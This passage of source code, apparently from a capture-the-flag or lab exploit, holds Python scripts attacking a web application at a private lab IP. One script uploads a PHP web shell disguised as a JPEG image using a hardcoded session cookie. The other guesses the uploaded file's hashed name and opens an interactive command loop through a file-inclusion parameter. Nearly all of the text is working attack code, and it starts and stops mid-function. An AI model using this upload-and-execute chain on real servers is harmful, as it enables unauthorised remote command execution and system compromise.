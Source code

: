 ```python
        file_hash = '$file_hash'
        time_var = str(int(time.time()))
        result = hashlib.md5(str(file_hash + time_var).encode()).hexdigest()
        print("Hash = " + result)
        hashes.append(result)
        time.sleep(1.2)
    return hashes


def image_access():
    url1 = 'http://10.10.11.135/images/uploads/'
    url2 = 'http://10.10.11.135/image.php?img=images/uploads/'

    for hash in hashes:
        response1 = requests.get(url1 + str(hash) + "_backdoor.jpg")
        if response1.ok:
            print(termcolor.colored("[+] Backdoor has been accessed successfully.", "green"))
            print(termcolor.colored("[!] \"quit\" or \"exit\" to terminate program.", "green"))
            while True:
                try:
                    cmd = input(termcolor.colored("cmd: ", "blue"))
                    response2 = requests.get(url2 + str(hash) + "_backdoor.jpg" + "&cmd=" + cmd)
                    if cmd == "quit" or cmd == "exit":
                        sys.exit()
                except KeyboardInterrupt:
                    sys.exit()
                else:
                    print(response2.text)
        else:
            print(termcolor.colored("[!] Trying access backdoor ...", "yellow"))

    print(termcolor.colored("[-] Backdoor access has been failed.", "red"))


hashes_creation()
image_access()
```
```python
# image_upload.py

import requests


def image_upload():
    url = 'http://10.10.11.135/upload.php'
    cookies = {"PHPSESSID": "34aq98pvlb4u36gqupfmmup0as"}
    headers = {"Host": "10.10.11.135", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 "
                                                     "Firefox/78.0",
               "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate",
               "Content-Type": "multipart/form-data; "
                               "boundary=---------------------------73468468424512948262231270173",
               "Origin": "http://10.10.11.135", "Connection": "close",
               "Referer": "http://10.10.11.135/avatar_uploader.php"}
    data = "-----------------------------73468468424512948262231270173\r\nContent-Disposition: form-data; " \
           "name=\"fileToUpload\"; filename=\"backdoor.jpg\"\r\nContent-Type: image/jpg\r\n\r\n<?php system($_GET[" \
           "cmd]); ?>\r\n\r\n-----------------------------73468468424512948262231270173-- "
    response = requests.post(url, headers=headers, cookies=cookies, data=data)

    if response.ok:
```